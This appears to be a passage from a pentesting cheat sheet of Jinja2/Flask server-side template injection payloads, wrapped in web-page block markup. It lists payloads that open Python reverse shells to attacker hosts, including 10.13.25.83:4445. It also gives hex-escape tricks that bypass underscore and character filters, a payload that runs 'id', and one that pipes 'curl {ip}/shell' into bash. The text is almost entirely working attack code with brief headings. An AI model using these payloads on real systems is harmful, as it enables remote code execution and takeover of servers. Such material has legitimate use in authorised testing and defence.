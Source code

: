 Python payload \[2] Python reverse shell

```python

<div data-gb-custom-block data-tag="for"><div data-gb-custom-block data-tag="if" data-0='warning'>{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"x.x.x.x\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}</div></div>

```

Python payload \[3] with underscore filters bypass

```python

<div data-gb-custom-block data-tag="for" data-0='5' data-1='5' data-2='5' data-3='5' data-4='5' data-5='5' data-6='5' data-7='5' data-8='5' data-9='5' data-10='5' data-11='5' data-12='5' data-13='5' data-14='5' data-15='5' data-16='5' data-17='5' data-18='5' data-19='5' data-20='5' data-21='5' data-22='5' data-23='5' data-24='5' data-25='5' data-26='5' data-27='5' data-28='5' data-29='5' data-30='5' data-31='5' data-32='5' data-33='5' data-34='5' data-35='5' data-36='5' data-37='5' data-38='5' data-39='5' data-40='5' data-41='5' data-42='5' data-43='5' data-44='5' data-45='5' data-46='5' data-47='5' data-48='5' data-49='5' data-50='5' data-51='5' data-52='5' data-53='5' data-54='5' data-55='5' data-56='5' data-57='5' data-58='5' data-59='5' data-60='5' data-61='5' data-62='5' data-63='5' data-64='5' data-65='5' data-66='5' data-67='5' data-68='5' data-69='5' data-70='5' data-71='5' data-72='5' data-73='5' data-74='5' data-75='5'><div data-gb-custom-block data-tag="if" data-0='warning' data-1='5' data-2='5' data-3='5' data-4='5' data-5='5' data-6='5' data-7='5' data-8='5' data-9='5' data-10='5' data-11='5' data-12='5' data-13='5' data-14='5' data-15='5' data-16='5' data-17='5' data-18='5' data-19='5' data-20='5' data-21='5' data-22='5' data-23='5' data-24='5' data-25='5'>{{x().\x5fmodule.\x5f\x5fbuiltins\x5f\x5f["\x5f\x5fimport\x5f\x5f"]("os").popen("python3 -c "import socket,subprocess,os\x3bs=socket.socket(socket.AF\x5fINET,socket.SOCK\x5fSTREAM)\x3bs.connect((\"10.13.25.83\",4445))\x3bos.dup2(s.fileno(),0)\x3b os.dup2(s.fileno(),1)\x3b os.dup2(s.fileno(),2)\x3bp=subprocess.call([\"/bin/sh\", \"-i\"])\x3b"")}}</div></div>
```

Python payload \[3] with most common filters bypassed

```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
```

Note that the below has been used to bypass the filters

```
# = \x23 
& = \x26 
; = \x3b 
_ = \x5f
```

Python payload \[3] to download reverse shell from attacker machine

```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl {ip}/shell | bash")|attr("read")()}}
```

